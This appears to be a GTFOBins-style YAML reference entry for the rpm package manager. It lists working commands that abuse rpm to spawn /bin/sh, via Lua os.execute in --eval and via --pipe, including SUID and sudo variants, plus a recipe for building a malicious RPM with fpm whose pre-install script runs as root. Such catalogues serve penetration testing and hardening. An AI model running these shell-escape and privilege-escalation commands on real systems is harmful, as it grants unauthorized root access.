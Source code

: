 ```yaml
---
functions:
  shell:
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
    - code: rpm --pipe '/bin/sh 0<&1'
  limited-suid:
    - code: ./rpm --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

